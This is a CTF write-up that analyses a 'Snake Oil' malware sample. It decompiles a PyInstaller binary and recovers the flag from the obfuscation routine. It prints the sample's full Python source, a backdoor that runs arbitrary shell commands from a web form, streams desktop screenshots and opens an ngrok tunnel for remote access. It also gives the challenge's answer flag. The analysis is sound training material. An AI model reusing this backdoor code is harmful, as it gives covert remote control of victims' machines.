

# ✅ MALWARE - Snake Oil

Writeup by: [@goproslowyo](https://github.com/goproslowyo)

## Tags

- medium

Files:

- [snake-oil](./snake-oil)

## Description

Author: @JohnHammond

One of our workstations was exhibiting strange network communications... we found this binary that looked to be the culprit. Can you find anything suspicious?  Download the file(s) below.

## Writeup

A quick check of the file shows it's a binary executable and further inspect reveals it's a packed python3.9 pyinstaller executable.

```shell
$ file snake-oil
snake-oil: PE32+ executable (console) x86-64, for MS Windows, 7 sections
$ strings snake-oil|grep pyt
IP%7pytp
pytweening)
bpython39.dll
'python39.dll
```

Let's pull the executable apart and then decompile the main compiled python pyc file.

```shell
# Get pyinstxtractor to pull python code out of pyinstaller executable
$ git clone https://github.com/extremecoders-re/pyinstxtractor
[...]
$ cd pyinstxtractor
$ python pyinstxtractor.py ../snake-oil
[...]
$ cd pyinstxtractor/snake-oil_extracted
# Get pycdc to decompile pyc files
$ git clone https://github.com/zrax/pycdc.git
$ cd pycdc
$ cmake CMakeLists.txt
$ make
$ make install
$ pycdc brain-melt.pyc;
# Source Generated with Decompyle++
# File: brain-melt.pyc (Python 3.9)
[...]
```

We get a decompiled python source code file. It has a tiny tiny mistake that we'll correct in a minute:

```python
# Source Generated with Decompyle++
# File: brain-melt.pyc (Python 3.9)

from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, TextField, validators, StringField, SubmitField
import subprocess
import pyautogui
import io
import sys
from PIL import Image
from pyngrok import ngrok
import base64
DEBUG = True
app = Flask(__name__)
app.config['SECRET_KEY'] = '9EQrXQ88pwP7UWaXbkmThhKuDdYxsad1'

def decrypt(s1, s2):
    return ''.join((lambda .0: [ chr(ord(c1) ^ ord(c2)) for c1, c2 in .0 ])(zip(s1, s2)))


def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key


def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    http_tunnel = ngrok.connect(5000, 'http', '-log=stdout > NUL')


def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', 70, **('quality',))
    img_io.seek(0)
    return send_file(img_io, 'image/jpeg', **('mimetype',))


def execute(cmd):
    child = subprocess.Popen(cmd, True, subprocess.PIPE, subprocess.PIPE, **('shell', 'stdout', 'stderr'))
    for line in child.stdout:
        print(line)
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)
    for line in child.stderr:
        l = line.decode('utf-8', 'ignore', **('encoding', 'errors'))
        flash(l)


class CommandForm(Form):
    command = TextField('Command:', [
        validators.required()], **('validators',))

    def display():
        form = CommandForm(request.form)
        print(form.errors)
        if request.method == 'POST':
            command = request.form['command']
        if form.validate() and request.method == 'POST':
            result = execute(command)
            flash(result)
        else:
            flash('Please enter a command.')
        return render_template_string('<!doctype html>\n                <html>\n                    <head>\n                        <link rel="stylesheet" href="css url"/>\n                            </head>\n                                <body>\n                                    <form action="" method="post" role="form">\n                                        <div class="form-group">\n                                              <label for="Command">Command:</label>\n                                              <input type="text" class="form-control" id="command" name="command"></div>\n                                              <button type="submit" class="btn btn-success">Submit</button>\n                                              </form>\n                                            \n                                            <p>{{ message }}</p>\n                                            \n                                            </iframe>\n                                </body>\n                            \n                            \n                            <script type="text/javascript">\n                            window.onload = function() {\n                                var image = document.getElementById("img");\n\n                                function updateImage() {\n                                    image.src = image.src.split("?")[0] + "?" + new Date().getTime();\n                                }\n\n                                setInterval(updateImage, 1000);\n                            }\n                            </script>\n                            \n                            </html>\n                        ', form, **('form',))

    display = app.route('/', [
        'GET',
        'POST'], **('methods',))(display)


def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

serve_img = app.route('/images/desktop.jpg')(serve_img)
# WARNING: Decompyle incomplete
```

From here I started to focus on the decrypt and deobfuscate functions. There is a small error in the decompilation that we need to fix. `.0` just needs to be any other variable place holder. Make it `x`, `i`, `c`, whatever, just fix it.

```python
def decrypt(s1, s2):
    return ''.join((lambda .0: [ chr(ord(c1) ^ ord(c2)) for c1, c2 in .0 ])(zip(s1, s2)))


def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key
```

Then run the code in an interpreter to get the flag you earned:



```python
$ ipython
def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    import base64
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    del(base64)
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key


def decrypt(s1, s2):
    return ''.join((lambda x: [chr(ord(c1) ^ ord(c2)) for c1, c2 in x]) (zip(s1, s2)))


print(deobfuscate())
flag{d7267ce26203b5cc69f4bab679cc78d2}
```
